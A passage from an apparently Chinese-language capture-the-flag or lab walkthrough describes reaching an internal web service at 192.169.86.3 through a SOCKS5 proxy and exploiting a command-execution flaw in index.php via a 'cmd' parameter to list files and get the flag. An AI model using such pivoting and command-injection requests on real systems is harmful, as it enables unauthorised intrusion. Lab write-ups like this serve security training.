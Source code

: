 ![](.assets_img/README/86_24_scan_result.png)

发现 `192.169.86.3:80` 中有服务：

### 8.2 攻下 `192.169.86.3`

使用代理进行访问：

```bash
curl 192.169.86.3:80 -x socks5://127.0.0.1:1080; echo ''
```

![](.assets_img/README/proxy_curl.png)

已经在非常明显地提示我们这是一个 `命令执行漏洞` 了：

```bash
curl "192.169.86.3:80/index.php?cmd=ls+/tmp" -x socks5://127.0.0.1:1080; echo ''
```

![](.assets_img/README/get_flag.png)
